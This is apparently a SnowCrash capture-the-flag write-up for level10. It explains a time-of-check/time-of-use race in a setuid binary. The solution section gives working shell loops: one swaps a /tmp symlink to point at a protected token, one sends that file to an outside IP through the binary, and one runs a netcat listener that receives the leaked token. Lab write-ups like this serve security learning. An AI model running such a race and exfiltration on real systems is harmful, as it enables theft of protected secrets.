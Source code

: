 # Research 

```bash
level10@SnowCrash:~$ ls -l
total 16
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token
level10@SnowCrash:~$ cat token
cat: token: Permission denied
level10@SnowCrash:~$ ./level10
./level10 file host
	sends file to host if you have access to it
```
Let's try: 
```bash
level10@SnowCrash:~$ ./level10 token localhost
You don't have access to token
```
Let's do a symlink on token: 
```bash
level10@SnowCrash:~$ ln -s /home/user/level10/token /tmp/final
level10@SnowCrash:~$ ./level10 /tmp/final localhost
You don't have access to /tmp/final
```
Fails... Let's analyze a bit `level10`:

```bash
level10@SnowCrash:~$ strings level10
[...]
%s file host
	sends file to host if you have access to it
Connecting to %s:6969 ..
Unable to connect to host %s
.*( )*.
Unable to write banner to host %s
Connected!
Sending file ..
Damn. Unable to open file
Unable to read from file: %s
wrote file!
You don't have access to %s
[...]
```
The progam seems to send a file to a host on its port 6969, once it is sent, it opens it, reads it, and write it.

We don't have permission to `cat token`, so maybe we can send token with `level10` program on a host, listen to the host's `6969` port and read the token once `level10` write it.

How do we do that?

`If you want to create a simple "test" server that can be set listen on a specified port and that you can interact with, take a look at the netcat command`
https://askubuntu.com/questions/301787/opening-a-port-for-listening

` [netcat] can open TCP connections, send UDP packets, listen on arbitrary TCP and UDP ports, do port scanning, and deal with both IPv4 and IPv6.`
`nc -l      Listen for an incoming connection rather than initiating a connection to a remote
             host.  The destination and port to listen on can be specified either as non-optional
             arguments, or with options -s and -p respectively.`
http://manpages.ubuntu.com/manpages/hirsute/en/man1/nc_openbsd.1.html


`strings level10` shows that level10 does an access() then an open(). This is a security hole. 

`Warning: Using access() to check if a user is authorized to, for example, open a file before actually doing so using open(2) creates a security hole, because the user might exploit the short time interval between checking and opening the file to manipulate it.`
https://linux.die.net/man/2/access

So we can do the symlink again and again, hoping that level10 will accept our file with access, then the symlink will occure, then level10 will open our modified file. 

# Solution

Level10 seems to be able to sends any file we create so let's do on a first terminal connected with ssh: `while true; do rm -rf /tmp/final; touch /tmp/final; ln -sfn /home/user/level10/token /tmp/final; done` to create the file that is going to be the symlink. (`readlink -f token` to know the true path of token file). We need to suppress and create a new file each time or the symlink will apply on tmp/final and will not pass the access() check again.

On a second ssh terminal let's do: `while true; do (./level10 /tmp/final 10.11.200.134); done` to execute level10 in a loop.

On a third terminal, we can listen to the port 6969 with the netcat command: `while true; do nc -l 6969 ;done`
